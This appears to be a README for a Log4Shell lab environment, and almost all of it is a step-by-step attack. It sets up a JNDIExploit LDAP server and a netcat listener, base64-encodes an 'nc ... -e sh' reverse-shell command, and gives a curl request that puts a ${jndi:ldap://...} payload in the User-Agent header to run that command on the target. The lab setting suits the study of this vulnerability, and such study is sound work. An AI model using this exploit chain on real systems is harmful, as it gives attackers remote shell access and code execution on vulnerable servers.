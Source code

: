 # Log4Shell



#### Steps to run

<br />

## Build and Run

```
docker-compose up --build
```


## Setup ldap server
-   Github [repo](https://github.com/feihong-cs/JNDIExploit)
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ip> -p <port>
```


## Listener
```
nc -vlp <port>
```


## convert to base64
```
echo -n 'nc <ip> <port> -e sh' | base64
```


## payload
```
curl http://localhost:8080/hello/user -H 'User-Agent: ${jndi:ldap://<private_ip>:1389/Basic/Command/Base64/<netcat base64 payload>}'
```

